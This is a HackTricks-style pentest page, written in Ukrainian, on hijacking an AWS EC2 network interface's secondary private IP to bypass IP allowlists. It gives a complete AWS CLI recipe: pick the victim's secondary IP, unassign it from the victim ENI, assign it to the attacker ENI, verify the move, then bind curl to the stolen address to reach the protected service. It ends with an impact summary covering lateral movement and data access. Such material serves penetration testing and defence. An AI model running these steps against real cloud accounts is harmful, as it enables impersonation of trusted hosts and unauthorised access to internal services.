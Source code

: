 # AWS – EC2 ENI Secondary Private IP Hijack (Trust/Allowlist Bypass)

{{#include ../../../../banners/hacktricks-training.md}}

Зловживати `ec2:UnassignPrivateIpAddresses` та `ec2:AssignPrivateIpAddresses`, щоб викрасти вторинну приватну IP-адресу ENI жертви та перемістити її на ENI атакуючого у тій же підмережі/AZ. Багато внутрішніх сервісів та security groups обмежують доступ за конкретними приватними IP. Переміщуючи цю вторинну адресу, атакуючий видає себе за довірений хост на L3 і може отримати доступ до allowlisted сервісів.

Передумови:
- Дозволи: `ec2:DescribeNetworkInterfaces`, `ec2:UnassignPrivateIpAddresses` на ARN ENI жертви, та `ec2:AssignPrivateIpAddresses` на ARN ENI атакуючого.
- Обидва ENI мають бути в одній підмережі/AZ. Цільова адреса має бути вторинною IP (primary неможна відв'язати).

Variables:
- REGION=us-east-1
- VICTIM_ENI=<eni-xxxxxxxx>
- ATTACKER_ENI=<eni-yyyyyyyy>
- PROTECTED_SG=<sg-protected>   # SG on a target service that allows only $HIJACK_IP
- PROTECTED_HOST=<private-dns-or-ip-of-protected-service>

Кроки:
1) Виберіть вторинну IP-адресу з ENI жертви
```bash
aws ec2 describe-network-interfaces --network-interface-ids $VICTIM_ENI --region $REGION   --query NetworkInterfaces[0].PrivateIpAddresses[?Primary==`false`].PrivateIpAddress --output text | head -n1 | tee HIJACK_IP
export HIJACK_IP=$(cat HIJACK_IP)
```
2) Переконайтеся, що захищений хост дозволяє лише ту IP-адресу (операція має бути ідемпотентною). Якщо натомість використовуються правила SG-to-SG, пропустіть.
```bash
aws ec2 authorize-security-group-ingress --group-id $PROTECTED_SG --protocol tcp --port 80   --cidr "$HIJACK_IP/32" --region $REGION || true
```
3) Базовий: з attacker instance, запит до PROTECTED_HOST повинен не пройти без spoofed source (наприклад, через SSM/SSH)
```bash
curl -sS --max-time 3 http://$PROTECTED_HOST || true
```
4) Зніміть вторинну IP-адресу з victim ENI
```bash
aws ec2 unassign-private-ip-addresses --network-interface-id $VICTIM_ENI   --private-ip-addresses $HIJACK_IP --region $REGION
```
5) Призначте ту саму IP-адресу ENI атакуючого (на AWS CLI v1 додайте `--allow-reassignment`)
```bash
aws ec2 assign-private-ip-addresses --network-interface-id $ATTACKER_ENI   --private-ip-addresses $HIJACK_IP --region $REGION
```
6) Переконайтеся, що право власності перенесено
```bash
aws ec2 describe-network-interfaces --network-interface-ids $ATTACKER_ENI --region $REGION   --query NetworkInterfaces[0].PrivateIpAddresses[].PrivateIpAddress --output text | grep -w $HIJACK_IP
```
7) З attacker instance зробіть source-bind на hijacked IP, щоб дістатися до protected host (переконайтеся, що IP налаштований в ОС; якщо ні, додайте його за допомогою `ip addr add $HIJACK_IP/<mask> dev eth0`)
```bash
curl --interface $HIJACK_IP -sS http://$PROTECTED_HOST -o /tmp/poc.out && head -c 80 /tmp/poc.out
```
## Вплив
- Обійти IP allowlists і видаватися за довірені хости у VPC шляхом переміщення secondary private IPs між ENIs у тій самій subnet/AZ.
- Дістатися внутрішніх сервісів, які обмежують доступ за specific source IPs, що дозволяє lateral movement і доступ до даних.
{{#include ../../../../banners/hacktricks-training.md}}
